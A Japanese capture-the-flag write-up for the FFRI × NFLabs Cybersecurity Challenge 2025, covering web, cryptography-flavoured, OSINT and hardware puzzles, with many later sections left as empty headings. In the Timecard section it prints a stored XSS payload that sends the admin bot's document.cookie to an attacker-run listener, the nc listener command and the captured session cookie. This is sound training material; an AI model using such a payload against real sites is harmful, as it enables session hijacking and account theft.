



[FFRI × NFLabs. Cybersecurity Challenge 2025](https://connpass.com/event/356453/)に参加して総合2位、webジャンル1位を獲得しました。

このCTFは個人戦のjeoparty方式のものでした。一般のものにはあまり見られないMalware AnalysisやPentestがありました。なので過程にフォーカスしたwriteupを書いていきたいと思います。





## Welcome

### Welcome (175pts / 66 solves)

フラグが問題文に書いてあるので提出するだけ。
気合のFirstBlood🩸を獲得した。

`flag{Good_Luck_and_Have_Fun!}`

## Web

### Secure Web Company (300pts / 41 solves)

与えられたソースコードを見てみます。

```txt title=Dockerfile
FROM nginx:alpine
COPY index.html script.js style.css README.md /usr/share/nginx/html/
```

```md title=README.md
# 開発者向け

## 管理画面認証情報

- ユーザー名: admin
- パスワード: flag{this_is_a_test_flag}

```

nginxのルートディレクトリにフラグ情報が含まれる`README.md`を突っ込んでいるのでそれを読めばフラグ獲得です。

```sh
❯ curl 10.0.128.115:8090/README.md
# 開発者向け

## 管理画面認証情報

- ユーザー名: admin
- パスワード: flag{5up3r53cr37_4dm1n_p455w0rd}
```

開幕1番に解いたためFirstBlood🩸を獲得できました。

### Timecard (380pts / 25 solves)

とりあえず問題ファイルを確認してみます。

<details>
  <summary>問題コード</summary>

```py title=web/app.py
from flask import Flask, render_template, request, redirect, url_for, flash
from flask_sqlalchemy import SQLAlchemy
from flask_login import LoginManager, UserMixin, login_user, login_required, logout_user, current_user
from flask.cli import with_appcontext
import click
import os

app = Flask(__name__)
MYSQL_USER = os.environ.get("MYSQL_USER")
MYSQL_PASSWORD = os.environ.get("MYSQL_PASSWORD")
MYSQL_DATABASE = os.environ.get("MYSQL_DATABASE")
MYSQL_HOST = os.environ.get("MYSQL_HOST", "db")
SECRET_KEY = os.environ.get("SECRET_KEY")
MANAGER_INITIAL_PASSWORD = os.environ.get("MANAGER_INITIAL_PASSWORD")
FLAG = os.environ.get("FLAG")

app.config['SESSION_COOKIE_HTTPONLY'] = False
app.config['SECRET_KEY'] = SECRET_KEY
app.config['SQLALCHEMY_DATABASE_URI'] = f"mysql+pymysql://{MYSQL_USER}:{MYSQL_PASSWORD}@{MYSQL_HOST}/{MYSQL_DATABASE}"

db = SQLAlchemy(app)
login_manager = LoginManager(app)
login_manager.login_view = 'login'

class User(UserMixin, db.Model):
    id = db.Column(db.Integer, primary_key=True)
    username = db.Column(db.String(150), unique=True, nullable=False)
    password = db.Column(db.String(150), nullable=False)
    role = db.Column(db.String(50), nullable=False)  # 'employee' or 'manager'

class TimeCard(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    user_id = db.Column(db.Integer, db.ForeignKey('user.id'), nullable=False)
    date = db.Column(db.Date, nullable=False)
    start_time = db.Column(db.Time, nullable=False)
    end_time = db.Column(db.Time, nullable=False)
    remarks = db.Column(db.String(500))
    approved = db.Column(db.Boolean, default=False)
    cancel_requested = db.Column(db.Boolean, default=False)  # 取り消し申請

@login_manager.user_loader
def load_user(user_id):
    return User.query.get(int(user_id))

@app.route('/')
def index():
    return redirect(url_for('login'))

@app.route('/login', methods=['GET', 'POST'])
def login():
    if current_user.is_authenticated:
        return redirect(url_for('dashboard'))
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        user = User.query.filter_by(username=username).first()
        if user and user.password == password:
            login_user(user)
            return redirect(url_for('dashboard'))
        else:
            flash('ログインできませんでした', 'error')
    return render_template('login.html')

@app.route('/dashboard')
@login_required
def dashboard():
    if current_user.role == 'employee':
        timecards = TimeCard.query.filter_by(user_id=current_user.id).all()
        return render_template('employee_dashboard.html.j2', timecards=timecards)
    elif current_user.role == 'manager':
        timecards = TimeCard.query.all()
        return render_template('manager_dashboard.html.j2', timecards=timecards, flag=FLAG)

@app.route('/submit_timecard', methods=['POST'])
@login_required
def submit_timecard():
    if current_user.role == 'employee':
        date = request.form.get('date')
        start_time = request.form.get('start_time')
        end_time = request.form.get('end_time')
        remarks = request.form.get('remarks', '')  # 任意項目なのでデフォルト空文字

        # 必須項目のバリデーション
        if not date or not start_time or not end_time:
            flash('日付、開始時刻、終了時刻はすべて入力してください。', 'error')
            return redirect(url_for('dashboard'))

        try:
            timecard = TimeCard(
                user_id=current_user.id,
                date=date,
                start_time=start_time,
                end_time=end_time,
                remarks=remarks
            )
            db.session.add(timecard)
            db.session.commit()
            flash('タイムカードを提出しました。', 'success')
        except Exception as e:
            db.session.rollback()
            flash('タイムカードの登録中にエラーが発生しました。', 'error')
        return redirect(url_for('dashboard'))


@app.route('/cancel_timecard/<int:timecard_id>', methods=['POST'])
@login_required
def cancel_timecard(timecard_id):
    timecard = TimeCard.query.get(timecard_id)
    if not timecard or timecard.user_id != current_user.id:
        flash("不正な操作です", 'error')
        return redirect(url_for('dashboard'))
    if not timecard.approved:
        # 未承認なら即削除
        db.session.delete(timecard)
        db.session.commit()
        flash("タイムカードを取り消しました", 'success')
    else:
        # 承認済みなら取り消し申請
        timecard.cancel_requested = True
        db.session.commit()
        flash("取り消し申請を行いました")
    return redirect(url_for('dashboard'))

@app.route('/approve_timecard/<int:timecard_id>', methods=['POST'])
@login_required
def approve_timecard(timecard_id):
    if current_user.role != 'manager':
        flash("権限がありません", 'error')
        return redirect(url_for('dashboard'))
    timecard = TimeCard.query.get(timecard_id)
    if not timecard:
        flash("タイムカードが見つかりません")
        return redirect(url_for('dashboard'))
    if timecard.cancel_requested:
        # 取り消し申請の承認→削除
        db.session.delete(timecard)
        db.session.commit()
        flash("取り消し申請を承認し、タイムカードを削除しました", 'success')
    elif not timecard.approved:
        # 通常の承認
        timecard.approved = True
        db.session.commit()
        flash("タイムカードを承認しました", 'success')
    return redirect(url_for('dashboard'))

def create_initial_users():
    if not User.query.filter_by(username='manager').first():
        manager = User(username='manager', password=MANAGER_INITIAL_PASSWORD, role='manager')
        db.session.add(manager)
    if not User.query.filter_by(username='user').first():
        user = User(username='user', password='userpass', role='employee')
        db.session.add(user)
    db.session.commit()

@app.route('/logout')
def logout():
    """ログアウト処理: セッションをクリアしてログインページへリダイレクト"""
    logout_user()
    return redirect(url_for('login'))

@click.command('init-db')
@with_appcontext
def init_db_command():
    import time
    time.sleep(15)
    db.create_all()
    create_initial_users()
    click.echo('Initialized the database and created initial users.')

def register_commands(app):
    app.cli.add_command(init_db_command)

register_commands(app)
```

```js title=victim/login_access.js
require('dotenv').config();
const puppeteer = require('puppeteer');

// sleep関数を定義
function sleep(ms) {
    return new Promise(resolve => setTimeout(resolve, ms));
}

(async () => {
    // ブラウザを起動
    const browser = await puppeteer.launch({
        headless: true,
        args: ['--no-sandbox', '--disable-setuid-sandbox']
    });
    const page = await browser.newPage();

    // ログインページにアクセス
    await page.goto('http://web/login');

    // ユーザ名とパスワードを入力し、フォームを送信
    await page.type('input[name="username"]', 'manager');
    await page.type('input[name="password"]', process.env.MANAGER_INITIAL_PASSWORD);
    await page.click('button[type="submit"]');

    // ログイン後にページがリダイレクトするのを待つ
    await sleep(5000);

    // ダッシュボードにアクセス
    await page.goto('http://web/dashboard');

    // 承認系ボタン（承認・取り消し申請承認）をすべてクリック
    while (true) {
        // ボタンの数を取得
        const approveCount = await page.evaluate(() => {
            const buttons = Array.from(document.querySelectorAll('button'));
            return buttons.filter(btn => btn.textContent.includes('承認')).length;
        });
        if (approveCount === 0) break;

        // 最初の承認ボタンをクリック
        await page.evaluate(() => {
            const buttons = Array.from(document.querySelectorAll('button'));
            const btn = buttons.find(btn => btn.textContent.includes('承認'));
            if (btn) btn.click();
        });

        await sleep(1000);
        await page.waitForNavigation({waitUntil: 'networkidle0'}).catch(() => {});
        await page.goto('http://web/dashboard');
    }

    // ページの内容を取得してコンソールに出力
    const content = await page.content();
    console.log(content);

    // ブラウザを閉じる
    await browser.close();
})();
```

```html title=web/templates/manager_dashboard.html.j2
<!DOCTYPE html>
<html>
<head>
    <title>マネージャーダッシュボード</title>
    <style>
        .flashes {
            margin-bottom: 1em;
        }
        .flashes .error {
            color: red;
        }
        .flashes .success {
            color: green;
        }
    </style>
</head>
<body>
    <h1>ようこそ、{{ current_user.username }}さん</h1>
    <p><a href="/logout">ログアウトはこちら</a></p>
    <p>{{ flag }}</p>
    <h2>申請一覧</h2>
     
    <div class="flashes">
        
        <div class="{{ category }}">{{ message }}</div>
        
    </div>
     
    <ul>
        
            <li>
                {{ timecard.date }}: {{ timecard.start_time }} - {{ timecard.end_time }} ({{ timecard.remarks }})
                <!-- 状態表示 -->
                
                    - <span style="color:orange;">取り消し申請中</span>
                    <form action="{{ url_for('approve_timecard', timecard_id=timecard.id) }}" method="post" style="display:inline;">
                        <button type="submit">取り消し申請承認</button>
                    </form>
                
                    - <span style="color:green;">承認済み</span>
                
                    - <span style="color:red;">未承認</span>
                    <form action="{{ url_for('approve_timecard', timecard_id=timecard.id) }}" method="post" style="display:inline;">
                        <button type="submit">承認</button>
                    </form>
                
            </li>
        
    </ul>
</body>
</html>
```

</details>

AdminBotがあるのでXSSかなーとおもいつつ眺めてみます。  
まずフラグを得るにはweb側の`dashboard`関数部分でログイン中のユーザのロールが`manager`だとフラグが表示されるようです。なので`manager`のセッションを取得したいです。  
AdminBotの動作としては`manager`アカウントでログインをしダッシュボードですべてのタイムカードを承認します。  
ここで`manager_dashboard.html.j2`を見てみるとタイムカードの中身を出力している。

```html
{{ timecard.date }}: {{ timecard.start_time }} - {{ timecard.end_time }} ({{ timecard.remarks }})
```

本来ならFlaskではauto escapeにより自動でエスケープされるはずだが、今回はここでエスケープされない。それは`render_template`に渡しているテンプレートのファイル名の拡張子が`j2`のためauto escapeが無効化される。詳細については下記の記事を参照してほしい。

https://tell-k.hatenablog.com/entry/2012/01/20/234410

まあ普通にXSSできるのでペイロードを作ります。  
ここで注意したいのが途中でアナウンスがありましたが問題サーバーは外部との通信ができない点。いつも通りrequestcatcherを使おうとしたら全然リクエストが来ないのでVPSを繋いだ環境で受け取り側を立てると受信できました。(ここでチュートリアルが役に立つ)

```html
<script>
  new Image().src = 'http://192.168.100.82:12345/?c=' + encodeURIComponent(document.cookie);
</script>
```

```sh
❯ nc -nvlp 12345
Listening on 0.0.0.0 12345
Connection received on 10.0.128.116 60676
GET /?c=session%3D.eJwljjkOAzEIAP_iOgX4wHg_swIDSlpvtory91hKM81MMZ90xvLrmY73uv2RzpelI_XIUTWmELjmAuAUhCU6NyGRrjxZC6p5DI-JDJR3XnmzMFiWIBWDQTGmgUC1CsLbEJq1hk5EYcCiM8iHt-hoqCO8VGiS9sh9-frfYPr-AGtjMUE.aMPubw.vi65rm8xDbO9_yVivnqwDgQU_vE HTTP/1.1
Host: 192.168.100.82:12345
Connection: keep-alive
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/139.0.0.0 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://web/
Accept-Encoding: gzip, deflate
```

これで`manager`のセッションが得られたので手元のブラウザのcookieに追加してアクセスするとフラグ獲得です。

`flag{H9aDSMkTCWZMEuk25nZw}`

この問題でもFirstBlood🩸を獲得できました。

### TimeFiles (420pts / 17 solves)

まずは問題ファイルを確認します。

<details>
  <summary>問題コード</summary>

```go title=main.go
package main

import (
	"encoding/xml"
	"html/template"
	"log"
	"net/http"
	"os"
	"strconv"
	"time"
	"webapp/utils"

	"github.com/gorilla/sessions"
)

var userConfigDir = "/app/"

type User struct {
	Name     string `xml:"Name"`
	Password string `xml:"Password"`
}

var store = sessions.NewCookieStore([]byte("auth-cookie"))

func init() {
	store.Options = &sessions.Options{
		Secure: false,
	}
}
func index(w http.ResponseWriter, r *http.Request) {
	tmpl, err := template.ParseFiles("templates/index.html")
	if err != nil {
		http.Error(w, "Error loading index", http.StatusInternalServerError)
		return
	}
	tmpl.Execute(w, nil)
}

func flag(w http.ResponseWriter, r *http.Request) {
	session, _ := store.Get(r, "session")
	username, ok1 := session.Values["username"].(string)
	if auth, ok2 := session.Values["authenticated"].(bool); !ok1 || !ok2 || username != "admin" || !auth {
		http.Redirect(w, r, "/login", http.StatusFound)
		return
	}

	tmpl, err := template.ParseFiles("templates/flag.html")
	if err != nil {
		http.Error(w, "Error loading page", http.StatusInternalServerError)
		return
	}

	w.Header().Set("AccessTime", strconv.FormatInt(time.Now().UnixMilli(), 10))

	flag := os.Getenv("FLAG")
	flag = utils.EncryptAes(flag)
	tmpl.Execute(w, map[string]string{"Flag": flag})
}

func search(w http.ResponseWriter, r *http.Request) {
	w.Header().Set("AccessTime", strconv.FormatInt(time.Now().UnixMilli(), 10))
	tmpl, err := template.ParseFiles("templates/search.html")
	if err != nil {
		http.Error(w, "Error loading page", http.StatusInternalServerError)
		return
	}

	if r.Method == http.MethodGet {
		tmpl.Execute(w, nil)
	} else if r.Method == http.MethodPost {
		title := r.FormValue("title")
		data, err := utils.SearchContent(title)

		if err != nil {
			http.Error(w, "検索エラー", http.StatusInternalServerError)
			return
		}

		tmpl.Execute(w, data)
	} else {
		http.Error(w, "Method not allowed", http.StatusMethodNotAllowed)
	}
}

func login(w http.ResponseWriter, r *http.Request) {
	w.Header().Set("AccessTime", strconv.FormatInt(time.Now().UnixMilli(), 10))
	if r.Method == http.MethodGet {
		tmpl, err := template.ParseFiles("templates/login.html")
		if err != nil {
			http.Error(w, "Error loading page", http.StatusInternalServerError)
			return
		}

		tmpl.Execute(w, nil)
	} else if r.Method == http.MethodPost {
		username := r.FormValue("username")
		password := r.FormValue("password")
		userConfigPath := userConfigDir + username + ".xml"

		_, err := os.Stat(userConfigPath)
		if err != nil {
			if os.IsNotExist(err) {
				http.Error(w, "User does not exist", http.StatusUnauthorized)
			} else {
				http.Error(w, "Error loading page", http.StatusInternalServerError)
			}
			return
		}

		data, err := os.ReadFile(userConfigPath)
		if err != nil {
			http.Error(w, "Error loading page", http.StatusInternalServerError)
			return
		}

		var user User
		err = xml.Unmarshal(data, &user)

		if password == user.Password {
			session, _ := store.Get(r, "session")
			session.Values["authenticated"] = true
			session.Values["username"] = username
			session.Save(r, w)
			http.Redirect(w, r, "/flag", http.StatusFound)

		} else {
			tmpl, err := template.ParseFiles("templates/login_error.html")
			if err != nil {
				http.Error(w, "Error loading page", http.StatusInternalServerError)
				return
			}
			tmpl.Execute(w, nil)
		}
	} else {
		http.Error(w, "Method not allowed", http.StatusMethodNotAllowed)
	}
}

func main() {
	http.HandleFunc("/", index)
	http.HandleFunc("/login", login)
	http.HandleFunc("/search", search)
	http.HandleFunc("/flag", flag)
	log.Fatal(http.ListenAndServe(":8092", nil))
}
```

```go title=utils/crypto.go
package utils

import (
	"crypto/aes"
	"crypto/cipher"
	"encoding/base64"
	"fmt"
	"math/rand"
	"strconv"
	"time"
)

func generateKey() []byte {
	delay := rand.Intn(1000)
	time.Sleep(time.Duration(delay) * time.Millisecond)
	var seedTime = time.Now().UnixMilli()
	fmt.Println(strconv.FormatInt(seedTime, 10))
	random := rand.New(rand.NewSource(seedTime))

	key := make([]byte, 16)
	for i := 0; i < 4; i++ {
		val := random.Uint32()
		key[i*4+0] = byte(val >> 24)
		key[i*4+1] = byte(val >> 16)
		key[i*4+2] = byte(val >> 8)
		key[i*4+3] = byte(val)
	}

	return key
}

func pad(src []byte, blockSize int) []byte {
	padding := blockSize - len(src)%blockSize
	padtext := make([]byte, padding)
	for i := range padtext {
		padtext[i] = byte(padding)
	}
	return append(src, padtext...)
}

func EncryptAes(plainText string) string {
	key := generateKey()
	plainBytes := []byte(plainText)

	block, err := aes.NewCipher(key)
	if err != nil {
		panic(err)
	}

	plainBytes = pad(plainBytes, block.BlockSize())

	iv := []byte{0x1a, 0x2b, 0x3c, 0x4d, 0x5e, 0x6f, 0x70, 0x81, 0x92, 0xa3, 0xb4, 0xc5, 0xd6, 0xe7, 0xf8, 0x09}

	mode := cipher.NewCBCEncrypter(block, iv)
	ciphertext := make([]byte, len(plainBytes))
	mode.CryptBlocks(ciphertext, plainBytes)

	return base64.StdEncoding.EncodeToString(ciphertext)
}
```

```html title=templates/flag.html
<!DOCTYPE html>
<html lang="ja">
<head>
  <meta charset="UTF-8">
  <title>CTF Flag Page</title>
  <style>
    body {
      background-color: #1e1e1e;
      color: #00ff00;
      font-family: monospace;
      text-align: center;
      padding-top: 100px;
    }
    .flag-box {
      border: 2px dashed #00ff00;
      display: inline-block;
      padding: 20px;
      font-size: 24px;
      background-color: #000;
    }
  </style>
</head>
<body>
  <div class="flag-box">
    🎉 Congratulations!<br>
    Your (encrypted) flag is:<br>
    <strong>{{.Flag}}</strong>
  </div>
</body>
</html>
```

</details>

問題としては

### Cereal Blog (480pts / 5 solves)

<details>
  <summary>問題コード</summary>

</details>

## Misc

### Bellaso (260pts / 49 solves)

> `cipher.txt` は、ある有名な古典作品の一節を、数百年前に作られた古典暗号で暗号化したテキストです。  
> この暗号文を解読して、解読結果に含まれるflagそのものを回答してください。例えば flag is example とある場合は `example` と回答してください。

「Bellaso 暗号」で調べるとヴィジュネル暗号がヒットした。

https://www.boxentriq.com/code-breaking/vigenere-cipher

なので適当に見つけたデコーダーで復元すると次のような文章が得られた。

```txt
...mitsu nado tobiisogu sae aware nari maite kari nado no tsuranetaru ga ito chiisaku miyuru ha ito okashi hi irihatete kaze no oto mushi no ne nado hata iubeki ni arazu flag is makuranosoushi fuyu ha tsutomete yuki no furitaru wa iubeki nimo arazu shimo no ito shiroki mo mata sarademo ito samuki ni...
```

よってフラグは`makuranosoushi`となる。

### Hamburger (400pts / 21 solves)

> 2024年8月のある日、株式会社エヌ・エフ・ラボラトリーズの社員である私たちは、とあるカフェでハンバーガーを食べていました。後日、株主会社のMさんが、私たちがそのカフェを訪れた日の2日前に、同カフェから半径6km以内の会場で開催されたイベントで講演していたことを知りました。私たちはそのイベントに参加していなかったため、講演の内容を確認したいと考えています。  
> 講演で使用されたスライドを確認し、15ページ目に記載されたsecret.txtに書かれている文字列を答えてください。

OSINT問題。株式会社エヌ・エフ・ラボラトリーズの株主会社を調べるとNTTドコモビジネス株式会社と株式会社FFRIセキュリティとでる。  
今回のCTFはNFLabsとFFRIの２社が主催のため、問題文中の株主会社はFFRIだとゲスする。昨年８月の公演情報をしらべると次の記事が出てきた。

https://www.ffri.jp/blog/2024/06/2024-06-21.htm

BlackHatのリンクが記載されているのでそこにアクセスするとPresentation Materialsにアクセスできる。この15ページを確認すると`secret.txt`の内容が確認できた。


以上よりフラグは`VerySecretData`である。

### Lamp (310pts / 39 solves)

> あなたはハードウェアエンジニアとして、Raspberry Pi Picoを用いてLEDを点滅させる簡単な電子回路を作成してほしいと依頼されました。  
> 使用するプログラムと製作中の回路図のみ渡されています。  
> 途切れている配線をRaspberry Pi Picoのどの物理PIN（物理PINは1から40まで存在する）に繋げばLEDが光るかを調査してください。

まずは与えられた添付ファイルを確認する。



```py title=lamp.py
from machine import Pin
import time

led = Pin(18, Pin.OUT)

while True:
    led.value(1)
    time.sleep(1)
    led.value(0)
    time.sleep(1)
```

回路図を確認するとLEDのカソード側がGND(23)につながっている。  
プログラム側を確認するとI/Oピン(GPIO)を制御する`Pin`クラスで#18が出力ピンとして指定されているため、GP18の物理PIN番号を知りたい。

「Raspberry Pi Pico PIN配置図」と調べると次のようなサイトが見つかり、GP18は物理PIN番号24に対応しているため問題サーバーに24を入力するとフラグが得られた。

`flag{pico_gpio_master}`

### Salted Hash Hunt (340pts / 33 solves)


## Malware Analysis

### Downloader (280pts / 45 solves)

### Acrobatics (320pts / 37 solves)

### CustomEncryptor (405pts / 20 solves)

### Hidden (485pts / 4 solves)

## Pentest

### HiddenService (255pts / 50 solves)

### Shell4Solr (425pts / 16 solves)

### Center (450pts / 9 solves)

#### Mission 01 (220pts / 13 solves)

#### Mission 02 (230pts / 9 solves)

### Enumeration (484pts / 2 solves)

#### Mission 01 (157pts / 7 solves)

#### Mission 02 (162pts / 4 solves)

#### Mission 03 (165pts / 2 solves)

## Binary Exploitation

### Abnormal (295pts / 42 solves)

### Jump (320pts / 37 solves)

### Here are GOT and PLT (435pts / 14 solves)

### all rust and no safe (解けなかった)

## まとめ
